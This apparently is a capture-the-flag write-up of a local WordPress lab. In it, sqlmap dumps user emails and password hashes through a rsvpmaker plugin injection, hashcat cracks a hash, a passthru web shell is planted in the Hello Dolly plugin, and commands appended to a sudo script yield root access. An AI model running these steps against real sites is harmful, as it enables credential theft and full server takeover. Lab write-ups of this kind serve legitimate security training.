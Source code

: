 # Writeup

## wpscan

```
sudo docker run --net host -it --rm wpscanteam/wpscan --url http://localhost:8000/
```

```
[i] Plugin(s) Identified:

[+] rsvpmaker
 | Location: http://localhost:8000/wp-content/plugins/rsvpmaker/
 | Latest Version: 7.3.9 (up to date)
 | Last Updated: 2020-04-01T14:10:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 7.8.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://localhost:8000/wp-content/plugins/rsvpmaker/README.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://localhost:8000/wp-content/plugins/rsvpmaker/README.txt
```

Resources :
- https://wpscan.com/vulnerability/10371

## sqlmap

```
sqlmap -u "http://localhost:8000/?action=signed_up&event_count=1" --dbms mysql -p event_count --technique T
sqlmap -u "http://localhost:8000/?action=signed_up&event_count=1" --dbms mysql -p event_count --technique T --dbs
sqlmap -u "http://localhost:8000/?action=signed_up&event_count=1" --dbms mysql -p event_count --technique T -D wordpress --tables
sqlmap -u "http://localhost:8000/?action=signed_up&event_count=1" --dbms mysql -p event_count --technique T -D wordpress -T wp_users --columns
sqlmap -u "http://localhost:8000/?action=signed_up&event_count=1" --dbms mysql -p event_count --technique T -D wordpress -T wp_users -C user_email,user_login,user_pass --dump
```

Resources :
- http://sqlmap.org/

## hashcat

```
docker pull dizcza/docker-hashcat:intel-cpu
docker run -it dizcza/docker-hashcat:intel-cpu /bin/bash
echo '$P$BJkqcsKTDSa6O6YUu6dO9PJ5uX0Xrm0' > wp.hash
hashcat -a 0 -m 400 wp.hash hashcat/example.dict
hashcat -a 0 -m 400 wp.hash hashcat/example.dict --show
```

Resources :
- https://hashcat.net/wiki/doku.php?id=example_hashes

## RCE

Edit plugin Hello Dolly. Keep the comment with the plugin info.

```
<?php
/**
 * @package Hello_Dolly
 * @version 1.7.2
 */
/*
Plugin Name: Hello Dolly
Plugin URI: http://wordpress.org/plugins/hello-dolly/
Description: This is not just a plugin, it symbolizes the hope and enthusiasm of an entire generation summed up in two words sung most famously by Louis Armstrong: Hello, Dolly. When activated you will randomly see a lyric from <cite>Hello, Dolly</cite> in the upper right of your admin screen on every page.
Author: Matt Mullenweg
Version: 1.7.2
Author URI: http://ma.tt/
*/
echo passthru($_GET['cmd']);
```

Visit : http://localhost:8000/wp-content/plugins/hello.php?cmd=cat+/flag.txt

## Privesc

```
sudo -l
ls -la /opt/update-wp
echo 'id;cat /root/flag.txt' >> /opt/update-wp
sudo /opt/update-wp
```

Visit : http://localhost:8000/wp-content/plugins/hello.php?cmd=sudo+-l;ls+-la+/opt/update-wp;echo+'id;cat+/root/flag.txt'+>>+/opt/update-wp;cat+/opt/update-wp;sudo+/opt/update-wp;
